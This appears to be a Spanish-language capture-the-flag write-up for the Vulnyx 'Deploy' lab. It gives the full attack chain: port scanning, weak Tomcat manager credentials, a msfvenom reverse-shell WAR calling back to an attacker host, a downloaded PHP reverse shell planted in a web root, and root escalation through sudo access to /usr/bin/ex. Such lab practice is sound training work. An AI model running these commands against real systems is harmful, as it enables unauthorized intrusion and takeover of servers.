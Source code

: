 # Vulnyx Deploy Explotación

## Escaneo de Puertos
```bash
nmap -p 22,80,8080 -sS -sC -sV  -n -Pn (IP-victima) -oN nmap
# 22/tcp   abierto  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocolo 2.0)
# 80/tcp   abierto  http    Apache httpd 2.4.56 ((Debian))
# 8080/tcp abierto  http    Apache Tomcat
```

## Fuzzing en Tomcat
```bash
gobuster dir -u http://(IP-victima):8080 -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt
# /manager
```

## Explotación de Tomcat
Encontradas credenciales de inicio de sesión de Tomcat Manager, al colocar un usuario y luego darle a "cancel":
- Usuario: tomcat
- Contraseña: s****t
# esto es una vulnerabilidad comun en Tomcat

Dentro de Tomcat ubimos un archivo .war malicioso para obtener una shell inversa creada con msfvenom:
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=(IP-atacante) LPORT=443 -f war > reverse.war
```

Accedido a la shell inversa a través de Netcat en el puerto 443 con el usuario "tomcat".

## Tratamiento de TTY
```bash
script /dev/null -c bash
# (Ctrl + Z)
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHEL=bash
```

## Escalada de Usuario
Encontradas credenciales adicionales para el usuario "sa" en "tomcat-users.xml":
```xml
<user username="sa" password="s*******!" roles="manager-gui"/>
```

Accedido via SSH con el usuario "sa":
```bash
ssh sa@(IP-victima)
# Contraseña: s*******!
```

## Escalada de Privilegios
Investigado procesos en ejecución con `ps aux`. Identificado que el usuario "toor" está iniciando Apache continuamente.

```bash
ps aux | grep toor
```

Explorado el directorio Apache2 y creado un script de shell inversa en `/var/www/html`.

```bash
cd /var/www/html
wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
nano php-pentest-monkey.php
```

Guardado el archivo como "index.php" y obtenida una shell inversa al acceder a la ruta raíz del servidor.

## Tratamiento de TTY (Nuevamente)
```bash
script /dev/null -c bash
# (Ctrl + Z)
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHEL=bash
```

## Escalada a Root
Ejecutado `sudo -l` y encontrado un comando interesante: `/usr/bin/ex`. Explotado para obtener una shell como root.

```bash
sudo -u root /usr/bin/ex
!/bin/sh
whoami
# root
```

¡Ahora somos root! :D
